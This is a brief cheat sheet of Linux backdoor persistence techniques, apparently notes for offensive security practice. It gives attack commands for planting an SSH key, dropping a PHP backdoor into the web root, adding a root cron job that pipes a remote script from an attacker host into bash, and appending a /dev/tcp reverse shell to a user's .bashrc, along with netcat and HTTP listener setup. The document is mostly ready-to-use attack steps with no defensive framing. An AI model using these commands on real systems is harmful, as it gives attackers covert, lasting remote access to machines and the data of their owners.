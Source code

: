 					SSH BackDoor

- ssh-keygen                                   Generates ssh key
	- Leave public key                      	 Place '/home/.ssh'
	- chmod 600 id_rsa               	  Gives permissions
- ssh -i id_rsa user@ip                    Use BackDoor

					PHP BackDoor
-- setup netcat
-- Location                                         /var/www/html 
    -- BackDoor script

-- Where to execute script                https://ip/PHP-BackDoor.php

					Cronjob BackDoor
-- Add to Cronjob                               * *     * * *   root    curl http://<IP>:8080/shell | bash 
   
- Add Script inside Cronjob            #!/bin/bash
								bash -i >& /dev/tcp/ip/port 8080>&1
-- Get Bash shell

-- Host HTTP server                             python3 -m http.server 8080
--listen with netcat			   nc -nvlp <port>

					.bashrc
 --   If a user has bash as their login shell, the ".bashrc" file in their home directory is executed when an interactive session is launched.
-- you dont know when the user will log in so always have netcat listening
    
echo 'bash -i >& /dev/tcp/ip/port 0>&1' >> ~/.bashrc

				Links
-- https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c
